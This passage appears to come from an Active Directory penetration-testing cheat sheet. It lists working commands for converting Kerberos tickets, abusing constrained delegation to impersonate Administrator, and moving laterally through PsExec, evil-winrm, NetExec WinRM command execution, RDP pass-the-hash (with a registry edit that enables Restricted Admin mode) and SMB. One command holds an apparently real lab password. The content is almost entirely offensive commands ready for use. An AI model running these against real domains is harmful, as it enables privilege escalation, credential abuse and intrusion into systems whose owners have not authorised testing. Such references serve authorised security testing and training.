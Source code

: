 If you want to perform this from linux (convert kirbi to ccache):
```
impacket-ticket_converter ticket.ccache ticket.kirbi
impacket-ticket_converter ticket.kirbi ticket.ccache

export KRB5CCNAME=</path/to/converted.ccache>
```

### Constrained Delegation

```
impacket-getST -spn HOST/SQL01.DOMAIN 'DOMAIN/user:password' -impersonate Administrator -dc-ip 10.10.10.10

export KRB5CCNAME=administrator.ccache
```

### RBCD
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution



## Lateral Movements

### PsExec

```
impacket-psexec backdoor@172.16.1.13
```

### WinRM

```
evil-winrm -i 172.16.1.5 -u sophie -p 'Alltheleavesarebrown1'

Enter-PSSession -ComputerName <computer> -Credential <domain>\<user>

nxc winrm <ip_range> -u <user> -p <password> -d <domain> -x <cmd>
```

### RDP

```
xfreerdp /u:<user> /d:<domain> /p:<password> /v:<ip>

impacket-reg <domain>/<user>@<ip> -hashes ':<hash>' add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'DisableRestrictedAdmin' -vt 'REG_DWORD' -vd '0'
xfreerdp /u:<user> /d:<domain> /pth:<hash> /v:<ip>
```

### SMB

```
impacket-smbclient  <domain>/<user>:<password>@<ip>
```
